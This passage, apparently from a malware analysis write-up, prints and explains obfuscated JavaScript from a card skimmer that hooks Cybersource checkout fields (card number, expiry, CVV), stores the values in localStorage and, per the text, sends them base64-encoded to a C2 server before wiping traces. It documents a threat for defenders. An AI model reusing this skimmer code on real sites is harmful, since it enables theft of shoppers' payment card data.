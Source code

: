 ```js
     }
     array_ID[_index]["addEventListener"]("change",function(arg)
     {
      array_Data[_index]=prepare_req(array_ID[_index]["value"]);
      arg["stopPropagation"]();
     });
    });
    var timer2=_A(()=>
    {
     if(Push_Keys(array_Data,array_header))
     {
      _CA(timer2);
      array_Data=Parse_Data_Array(array_Data,array_1);
      var data_json=JSON["stringify"](array_Data);
      localStorage["setItem"]("wc_info",data_json);
     }
    },0x12c);
   }
  },0x7d0);
    },0x12c);
   ``` 

<h6>The final code check if the last operation has done and that the cybersource solution are present on the page. If exists, this parse the data of fields of the form and add to the arrays. Once done, this convert to JSON, push in base64 the content and send a request to URL by the C2. This doesn't wait a reply, this only for sending the data to the C2 by URL requests, the group use a regex for extract all data from theirs logs of theirs C2 domains. Once performed, the script delete the informations on the localstorage as anti-forensic method.</h6>

  ```js
  var timer3=_A(function()
  {
   if(!Valid_Check()&&localStorage["getItem"]("wc_info")&&!!document["getElementById"]("cybersourcedc-transparent-form"))
   {
    _CA(timer3);
    array_Data=JSON["parse"](localStorage["getItem"]("wc_info"));
    array_storage={};
    array_1=['pp','zz','ll',"pii"];
    mathRand3=["md_cybersourcedc_cc_number","md_cybersourcedc_expiration","md_cybersourcedc_expiration_yr","md_cybersourcedc_cc_cid"];
    _S(()=>
    {
     mathRand3["forEach"](function(IDtoFind,index)
     {
      array_ID[index]=document["getElementById"](IDtoFind);
      if(array_ID[index]["value"]!=''){ array_storage[index]=prepare_req(array_ID[index]["value"]); }
      array_ID[index]["addEventListener"]("change",function(arg)
      {
       array_storage[index]=prepare_req(array_ID[index]["value"]);
       arg["stopPropagation"]();
      });
     });
    },0x7d0);
    var timer4=_A(()=>
    {
     if(Push_Keys(array_storage,mathRand3))
     {
      array_storage=Parse_Data_Array(array_storage,array_1);
      if(data_storage(array_storage['pp'])["length"]>=15&&data_storage(array_storage["pii"])["length"]>=3)
      {
       _CA(timer4);
  ```